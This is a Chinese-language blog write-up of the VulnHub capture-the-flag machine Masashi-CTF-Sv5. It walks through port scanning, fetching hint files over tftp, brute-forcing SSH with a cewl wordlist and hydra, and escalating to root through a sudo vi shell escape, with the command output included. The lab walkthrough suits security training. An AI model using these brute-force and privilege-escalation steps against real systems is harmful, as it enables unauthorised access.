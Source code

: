 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/gYx4d6bjB8-EZCCBUMqoDg)

**0x01** Introduction  

* * *

虚拟机下载页面：https://download.vulnhub.com/masashi/Masashi-CTF-Sv5.zip  

Description

```
When you open the Virtual Machine in VMware and it says "failed", Dont be alarmed, just click "try again"

PS. There is no need for you to setup networking for the VM, its on NAT annd DHCP.

If you face any challenges, DM on Twitter @lorde_zw

Have Fun ;) ;)
```

‍

**0x02** **Writeup**  

* * *

2.1 getshell

#####  2.1.1 端口信息

nmap 扫描开放端口

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
```

##### 2.1.2 脆弱服务

tcp 端口只开放了 22 和 80，访问 80 为 apache 介绍页面，于是使用 dirb 爬取一下目录，发现了 robots.txt。

目录扫描：  

```
User-agent: *
Disallow: /
  /snmpwalk.txt
  /sshfolder.txt
  /security.txt
```

#### 访问得到 snmpwalk.txt，得到了提示访问服务器的 tftp 服务。

```
403:
|  Name: cron
|  Path: /usr/sbin/cron
|  Params: -f
|  768:
|  Name: tftpd
|  Path: /usr/sbin/tftpd
|  Params: -- listen â€” user tftp -- address 0.0.0.0:1337 -- secure /srv/tftp
|  806:
|  Name: mysqld
|  Path: /usr/sbin/mysqld
|  Params: -i 0.0.0.0
```

sshfolder.txt，得到了用户名 sv5

```
sv5@masashi:~/srv/tftp# ls -la
total 20
drwx------  2 sv5 sv5 4096 Oct 15 19:34 .
drwxr-xr-x 27 sv5 sv5 4096 Oct 21 12:37 ..
-rw-------  1 sv5 sv5 2602 Oct 15 19:34 id_rsa
-rw-r--r--  1 sv5 sv5  565 Oct 15 19:34 id_rsa.pub
sv5@masashi:~/srv/tftp#
```

于是使用 tftp client 访问得到 id_rsa，id_rsa.pub。

```
kali@kali:~$ tftp 192.168.56.120 1337
tftp> get id_rsa
Received 67 bytes in 0.0 seconds
tftp> get id_rsa.pub
Received 108 bytes in 0.0 seconds
tftp> quit
kali@kali:~$ cat id_rsa
So if you cant use the key then what else can you use????????? :)
kali@kali:~$ cat id_rsa.pub 
Dude seriously, The key doesnt work here, try the other cewl thing here "/index.html"..... Wink ;) Wink ;)
```

按照提示，爬取主页作为字典去爆破用户 sv5 的密码，得到密码 whoistheplug。

```
kali@kali:~$ cewl http://192.168.56.120 > 1.txt
kali@kali:~$ cat 1.txt |wc -l
kali@kali:~$ hydra -l sv5 -P 1.txt ssh://192.168.56.120 -t 4
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-12-01 21:13:45
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 238 login tries (l:1/p:238), ~60 tries per task
[DATA] attacking ssh://192.168.56.120:22/                                                          
[22][ssh] host: 192.168.56.120   login: sv5   password: whoistheplug           
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-12-01 21:20:37
```

成功登录获取 shell。

```
sv5@masashi:~$ cat user.txt 
Hey buddy :)

Well done on that initial foothold ;) ;)

Key Takeaways:
* Do not always believe what the tool tells you, be the "Doubting Thomas" sometimes and look for
  yourself, e.g 1 disallowed entry in robots.txt wasn't really true was it? hehehehe
* It's not always about TCP all the time..... UDP is there for a reason and is just as important a
  protocol as is TCP......
* Lastly, there is always an alternative to everything i.e the ssh part.


***** Congrats Pwner ******
Now on to the privesc now ;)



##Creator: Donald Munengiwa
##Twitter: @lorde_zw
```

##### 2.2 权限提权  

运行 sudo -l 发现该用户可以任意用户执行 vi，按 esc 后输入:!/bin/bash 直接提权至 root。

```
sv5@masashi:~$ sudo -l
Matching Defaults entries for sv5 on masashi:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sv5 may run the following commands on masashi:
    (ALL) NOPASSWD: /usr/bin/vi /tmp/*
sv5@masashi:~$ sudo -u root /usr/bin/vi /tmp/1.txt

root@masashi:/home/sv5# cat /root/root.txt 
Quite the pwner huh!!!! :)

Well i bet you had fun ;) ;)

Key Takeaways:
* Well, this time i'll leave it to you to tell me what you though about the overall experience you
  had from this challenge.
* Let us know on Twitter @lorde_zw or on linkedIn @Sv5


****** Congrats Pwner ******
If you've gotten this far, please DM your Full name, Twitter Username, LinkedIn Username,
the flag [th33p1nplugg] and your country to the Twitter handle @lorde_zw ..... I will do a 
shoutout to all the pnwers who completed the challenge.....

Follow us for more fun Stuff..... Happy Hacktober Pwner (00=[][]=00)

##Creator: Donald Munengiwa
##Twitter: @lorde_zw
```

**PS：**无论你活成什么样子，背地里都会有人对你说三道四。不申辩不计较一笑了之，其实就是最好的蔑视。

更多精彩

*   [Web 渗透技术初级课程介绍](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247486030&idx=2&sn=185f303a2f1b5267c0865f117931959d&chksm=fcfc3718cb8bbe0e6f3ca97859e78342852537da2bef3cd76a83cb90ee64a8ca8953b35aa67e&scene=21#wechat_redirect)
    
*   [](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247486968&idx=1&sn=7f66208298cf2cec57286947ddb8b223&chksm=fcfc30aecb8bb9b8333c1d05976dbdbf33d34f2a0d2b0cdfc41e835d29b9b4bcfc352504f8e4&scene=21#wechat_redirect)[vulnhub 之 PRAYING:_1 靶场 writeup](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247487123&idx=1&sn=8f6786d3c4579bf833eb31763491d781&chksm=fcfc33c5cb8bbad3c498fb4ce3a379ef1a9ea25ff8a55672df2a9459f22ed88813874b9da9d6&scene=21#wechat_redirect)  
    
*   [商务合作](http://mp.weixin.qq.com/s?__biz=MzU2OTUxOTE2MQ==&mid=2247486808&idx=1&sn=f50f15f9a3ab7312a08b1f932292faca&chksm=fcfc300ecb8bb918213c6070d864ffcd70ad27ab6525521c31e9ccaa57bdfa2968360ed7e8fe&scene=21#wechat_redirect)
    

![](https://mmbiz.qpic.cn/mmbiz_png/zSNEpUdpZQSd9wDlUiar0tUpHCYAzrZfTzOvS2SEw9cia9j7d1HKP2bWArPLCegs1XoejVUPu0GkSuZh7Wia7aExA/640?wx_fmt=png)

**如果感觉文章不错，分享让更多的人知道吧！**